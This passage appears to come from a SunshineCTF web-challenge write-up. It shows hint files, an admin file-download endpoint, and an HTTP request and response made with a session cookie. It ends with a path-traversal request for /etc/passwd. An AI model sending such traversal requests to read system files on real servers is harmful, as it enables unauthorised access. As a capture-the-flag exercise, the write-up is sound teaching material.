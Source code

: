 ```
From Muhammad:
so we triggered IR, one of the attackers somehow got their hands on our /etc/passwd file because it's on every Linux machine.

I did some research and a lot of the techniques they did were from Hacktricks website! :(((
```

`secret3.txt`:
```
TODOS:
1) update the .GITIGNORE file
2) Rate SunshineCTF good plez
3) fill out the feedback form when the CTF is over, it's on our discord server ;)
```

After viewing the files I find an endpoint that looks like I can download files from: 
`https://asteroid.sunshinectf.games/admin/download/secret1.txt`

Request 1:
```http
GET /admin/download/secret1.txt HTTP/2
Host: asteroid.sunshinectf.games
Cookie: session=.eJzVT0lqAzEQ_IrQ2QR1S63Fr8g9GNNStzxDHDuMxifjv0chr8ipqA2qnvbcrzwWHfb48bRmn2C_dAy-qD3Y96vyUHO9X8x6M_vdcGvTNPuyDvM9M2_29Dr8k97pMM9uOhZ73LeHTraKPVrBBphqDj36VikqJ6oVKfjsA3skr8VFVmkQK6VAmKSDiyVHkZDBQVOYPQcanCRGzBBcb-RKCi21ABirAkXsqJm9IEUumltmKF1gzj8_hm5_a35pG1s_7_dPvU2BQKSQz4yha2gu1YIaJHOsvkdikh4RarCvH5wrjTw.aNmXEQ.HoncECn_3XLzON44mx9y41AaQNI
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://asteroid.sunshinectf.games/admin/lunar_files
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

Response 1:
```shell
HTTP/2 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Sun, 28 Sep 2025 20:49:39 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 368
Content-Disposition: attachment; filename=secret1.txt
Last-Modified: Sat, 27 Sep 2025 19:49:22 GMT
Cache-Control: no-cache
Etag: "1759002562.345629-368-1899834102"
Vary: Cookie

We updated our protections against attackers abusing one of the routes to download files they should not be able to.

The only issue is we're not sure how they keep getting in. Tell Muhammad to fix this janky website bro, what are we paying him 

our LunarCoins for??

Alimuhammadsecured: yo my bad, I was busy sleeping --_--, we need sleep bro we're not like Y'all.
```

Request 2:
```http
GET /admin/download//etc/passwd HTTP/2
Host: asteroid.sunshinectf.games
```